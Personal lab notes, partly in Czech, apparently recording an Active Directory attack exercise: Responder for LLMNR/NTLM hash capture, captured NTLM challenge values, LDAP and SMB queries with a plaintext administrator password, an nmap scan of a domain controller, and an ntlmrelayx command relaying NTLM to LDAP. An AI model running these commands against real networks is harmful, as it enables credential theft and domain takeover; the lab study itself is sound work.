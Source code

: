download win10 virtual from:
https://tb.rg-adguard.net/public.php
DHCP - prideluje ip v siti + DNS, mask atd
Responder:
https://github.com/SpiderLabs/Responder.git
ve vmware prenastavit net configuration BRIDGE

netstat -ano | findstr :445
run cmd as admin
taskkill /PID 4 /F

sudo python Responder.py -I ens33

nbtstat #na windows

MDNS - multicast DNS
LLMNR -  Link-Local Multicast Name Resolution
NTLM - NT lan manager
NTM - Network Time Manager

1. SMB Command: Negotiate Protocol
2. Session Setup AndX
- mechToken -- too short
- responsetoken
- NTLMChalange b5:f8:84:d4:95:20:71:58 (8 bytu)
- NTLMProofString 
NTProofStr: f7767292404e180abb7bee2e5c104dd3
- NTLMClientChalange c8:5d:4c:6a:0e:31:ca:f0

File "/home/osboxes/Responder/utils.py", line 130, in SaveToDb

cursor.execute('CREATE TABLE responder (timestamp varchar(32), module varchar(16), type varchar(16), client varchar(32), hostname varchar(32), user varchar(32), cleartext varchar(128), hash varchar(512), fullhash varchar(512))')
OperationalError: table responder already exists


sudoedit /etc/UPower/UPower.conf
IgnoreLid=true

https://github.com/python-ldap/python-ldap.git
shift+insert

nelze spustit:
sudo pip install python-ldap
Modules/errors.h:8: fatal error: lber.h: No such file or directory
reseni:
sudo apt-get install libsasl2-dev python-dev libldap2-dev libssl-dev


LDAP port 389
https://likegeeks.com/linux-ldap-server/
sudo apt-get install slapd
sudo apt-get install ldap-utils
systemctl enable slapd
dappassword
```python
import ldap
l = ldap.initialize("ldap://192.168.133.2")
l.simple_bind_s("PESIK\\Administrator", "Turololo42")

l.search_s("o=My Organisation, c=AU", ldap.SCOPE_SUBTREE, "objectclass=*")

l.simple_bind_s("","")
```
```sh
netstat -a

ldapsearch -h 192.168.133.2 -D "PESIK\\Administrator" -w Turololo42
ldapsearch -h 192.168.133.2 -D "cn=Administrator,dc=pesik,dc=localdomain" -w Turololo42
ldapsearch -x -D 'cn=Administrator@pesik.localdomain' -h 192.168.133.2 -w Turololo42

-W #prompt for bind password
-x #Simple authentication
-h ip
-H URL
-w password

curl ldap://192.168.133.2

sudo apt install openjdk-11-jre-headless default-jre openjdk-8-jre-headless
```
https://www.netiq.com/communities/cool-solutions/cool_tools/gawors-excellent-ldap-browsereditor-v282/

version
windows server 2012 r2

allowing ldap on win server 2012 r2:
https://blogs.msdn.microsoft.com/microsoftrservertigerteam/2017/04/10/step-by-step-guide-to-setup-ldaps-on-windows-server/

AD LDS port: 50000
HERUEKA:
```sh
ldapsearch -h 192.168.133.2:389 -D "PESIK\\Administrator" -w Turololo42
```

adding computer to domain:
https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/deployment/join-a-computer-to-a-domain

```sh
smbclient -L 192.168.133.2 -U Administrator -W PESIK
```

turn off after-sleep login screen
```sh
sudo chmod 777 /etc/default/acpi-support
vim /etc/default/acpi-support
# LOCK_SCREEN=true
```

NTLM relaying in 2017
https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html

check smb signing
https://github.com/actuated/check-smb-signing
```sh
sudo ./check-smb-signing.sh --nmap -a 192.168.133.2
```
regedit.exe
http://techgenix.com/windows-smb-signing/
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters
enablesecuritysignitures

LanManWorkstation


look at PowerShell Empire

```nmap
Nmap scan report for 192.168.133.2
Host is up, received user-set (0.0014s latency).
Scanned at 2018-11-09 09:44:05 EST for 90s
Not shown: 981 filtered ports
Reason: 981 no-responses
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 128
88/tcp    open  kerberos-sec     syn-ack ttl 128
135/tcp   open  msrpc            syn-ack ttl 128
139/tcp   open  netbios-ssn      syn-ack ttl 128
389/tcp   open  ldap             syn-ack ttl 128
445/tcp   open  microsoft-ds     syn-ack ttl 128
464/tcp   open  kpasswd5         syn-ack ttl 128
636/tcp   open  ldapssl          syn-ack ttl 128
3268/tcp  open  globalcatLDAP    syn-ack ttl 128
3269/tcp  open  globalcatLDAPssl syn-ack ttl 128
3389/tcp  open  ms-wbt-server    syn-ack ttl 128
49154/tcp open  unknown          syn-ack ttl 128
49155/tcp open  unknown          syn-ack ttl 128
49156/tcp open  unknown          syn-ack ttl 128
49158/tcp open  unknown          syn-ack ttl 128
49159/tcp open  unknown          syn-ack ttl 128
49167/tcp open  unknown          syn-ack ttl 128
50000/tcp open  ibm-db2          syn-ack ttl 128
50001/tcp open  unknown          syn-ack ttl 128
```
##ntlmrelayx.py
LDAP client options:
  --no-dump             Do not attempt to dump LDAP information
  --no-da               Do not attempt to add a Domain Admin
  --no-acl              Disable ACL attacks
  --escalate-user ESCALATE_USER
                        Escalate privileges of this user instead of creating a
                        new one
```sh
sudo ./impacket/examples/ntlmrelayx.py -t ldap://192.168.133.2 -smb2support --no-dump --no-acl
```

